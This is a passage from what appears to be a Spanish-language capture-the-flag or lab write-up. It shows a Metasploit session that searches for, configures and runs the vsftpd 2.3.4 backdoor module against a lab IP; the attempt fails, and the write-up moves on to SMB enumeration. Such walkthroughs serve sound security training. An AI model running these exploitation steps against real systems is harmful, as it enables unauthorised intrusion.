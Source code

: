 ``` text
```

Como podemos ver, la vulnerabilidad es tan popular que tiene su propio exploit en Metasploit.

Utilizando `metasploit-framework`, tratemos de explotar la vulnerabilidad:

``` text
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use 0
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exit
```

Como pudimos observar, aunque el exploit se ejecuto correctamente, no se reconecto al backdoor. Sin detenernos demasiado tiempo en explotar una vulnerabilidad, pasemos a enumerar mas el servicio de SMB.

# SMB version enum
